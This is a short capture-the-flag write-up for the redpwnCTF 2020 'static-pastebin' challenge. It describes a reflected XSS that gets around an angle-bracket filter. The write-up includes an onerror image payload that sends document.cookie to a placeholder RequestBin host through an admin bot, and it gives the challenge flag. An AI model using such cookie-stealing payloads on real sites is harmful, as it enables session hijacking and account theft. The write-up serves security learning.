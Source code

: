 ```yaml
---
layout: post
title: "static-pastebin"
author: "shreyas-sriram"
---
```


I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here. 

`https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin` (aadmin-bot)

Site: `static-pastebin.2020.redpwnc.tf`

Note: The site is entirely static. Dirbuster will not be useful in solving it.

# Solution

* The input is getting reflected in the next page, this could be a case of **XSS**
* But trying `<script>alert('1')</script>` as payload doesn't execute **XSS**
* Looking through the source code, it is clear that there is some kind of filtering for `<` and `>`
* This is one of the payloads that works<br/>
`><img src='x' onerror='alert(1)'>`
* There is an admit-bot in the question which will visit the URL provided, this can be exploited to steal the admin's cookie
* Setup a [RequestBinURL](https://requestbin.com)
* Use the following payload in the static-pastebin<br/>
`><img src=x onerror=this.src='//<RequestBinURL>/?c='+document.cookie>`
* Copy the URL and submit to the admin-bot<br/>
URL  :  `https://static-pastebin.2020.redpwnc.tf/paste/#<Base64-payload>`
* View the logs on the **RequestBinURL** to obtain the flag<br/>
`flag{54n1t1z4t10n_k1nd4_h4rd}`